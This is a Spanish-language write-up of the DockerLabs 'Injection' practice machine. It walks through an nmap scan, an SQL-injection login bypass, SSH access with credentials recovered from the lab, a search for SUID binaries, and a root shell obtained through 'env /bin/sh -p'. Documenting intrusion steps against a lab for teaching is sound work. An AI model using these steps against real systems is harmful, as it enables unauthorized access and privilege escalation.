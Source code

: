 ```yaml
---
{"dg-publish":true,"permalink":"/dockerlabs/muy-facil/injection/","dgPassFrontmatter":true,"noteIcon":""}
---
```


![Pasted image 20250525004817.png](/img/user/Imagenes/Pasted%20image%2020250525004817.png)


Empezamos haciendo un nmap para ver los puertos abiertos de la ip:

```
nmap -sCV -T5 172.17.0.2 -v -oN injection
```

![Pasted image 20250525005259.png](/img/user/Imagenes/Pasted%20image%2020250525005259.png)

Obsevamos que tenemos el puerto 22 y 80 abierto, vamos a colocar la ip dentro de firefox:

![Pasted image 20250525005437.png](/img/user/Imagenes/Pasted%20image%2020250525005437.png)

Tenemos un login y como dice su mismo nombre dice injection podemos intuir alguna injeccion sql, por lo cual probamos un payload basico.

![Pasted image 20250525005521.png](/img/user/Imagenes/Pasted%20image%2020250525005521.png)

Listo nos vota una password y un usuario, por lo tanto tambien sabemos que tenemos el puerto ssh(22) abierto entonces intentamos con las credenciales.

```
dylan:KJSDFG789FGSDF78
```

Y listo tenemos acceso a ssh:
![Pasted image 20250525005723.png](/img/user/Imagenes/Pasted%20image%2020250525005723.png)

Para terminar la maquina debemos ser root, por lo tanto buscare binarios.

```
find / -perm -4000 -type f 2>/dev/null
```

![Pasted image 20250525010906.png](/img/user/Imagenes/Pasted%20image%2020250525010906.png)

Encontramos esos binarios y si usamos la siguiente pagina: https://gtfobins.github.io/gtfobins/env/
- Observamos que le binario env si tiene el bit SUID activado, no elimina los privilegios elevados y puede usarse de forma abusiva para acceder al sistema de archivos, escalar o mantener el acceso privilegiado como una puerta trasera SUID.
Y como verificamos?
- Usaremos lo siguiente:
```
ls -l /usr/bin/env
```

y nos saldra:
```
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
```

Ese **s** en lugar de **x** en los permisos de usuarios (rws) significa que el bit SUID esta activado, y env se ejecuta con privilegios de root, aunque tu seas dylan.

Entonces al hacer:
```
env /bin/sh -p
```

1. env: se ejecuta con privilegios de root (por el SUID).
2. env lanza /bin/sh con -p
3. sh -p dice: **no bajes privilegios, mantenme como root**
4. Resultado: una shell con UID 0 -> root

Para entenderlo mejor que es el SUID?
- El SUID es como un disfraz que permite a dylan hacer todo lo que podria hacer un usuario root.
```
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
```
Este programa tiene le disfraz magico (SUID) de la autoridad (root).

![Pasted image 20250525015818.png](/img/user/Imagenes/Pasted%20image%2020250525015818.png)

Finnalmente somos root.

thanks.
